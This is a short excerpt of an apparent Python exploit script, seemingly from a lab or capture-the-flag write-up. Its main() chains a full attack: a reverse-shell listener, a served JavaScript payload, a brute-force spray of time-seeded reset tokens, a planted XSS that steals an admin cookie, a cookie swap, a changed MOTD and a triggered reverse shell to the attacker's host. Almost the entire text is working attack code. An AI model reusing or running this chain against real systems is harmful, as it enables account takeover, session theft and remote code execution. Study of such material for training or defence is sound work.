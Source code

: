 ```py
    print("[+] Enjoy the shellll ! [+]")
    url = "http://%s:80/" %rhost
    r.get(url, cookies=r.cookies, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    # Change token
    changeCookies(rhost,admin_cookie)
    # Change MOTD
    changeMotd(rhost,lhost,lport)
    # Trigger reverse
    getReverse(rhost)

if __name__ == '__main__':
    main()
```

Done!!